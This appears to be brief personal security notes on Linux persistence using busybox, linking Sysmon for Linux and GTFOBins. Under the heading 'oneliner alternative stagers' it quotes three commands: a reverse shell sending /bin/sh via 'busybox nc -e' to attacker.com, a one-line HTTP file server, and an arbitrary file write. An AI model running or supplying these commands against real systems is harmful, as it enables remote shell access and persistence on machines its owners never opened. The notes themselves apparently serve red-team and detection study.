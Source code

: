 ![1920](linux-persistence-map.png)

https://github.com/Sysinternals/SysmonForLinux


https://linux.die.net/man/1/busybox oneliner alternative stagers
busybox persistance

busybox GTFOBins - https://gtfobins.github.io/gtfobins/busybox/
```bash
RHOST=attacker.com
RPORT=12345
busybox nc -e /bin/sh $RHOST $RPORT
```

```
LPORT=12345
busybox httpd -f -p $LPORT -h .
```

```
LFILE=file_to_write
busybox sh -c 'echo "DATA" > $LFILE'
```
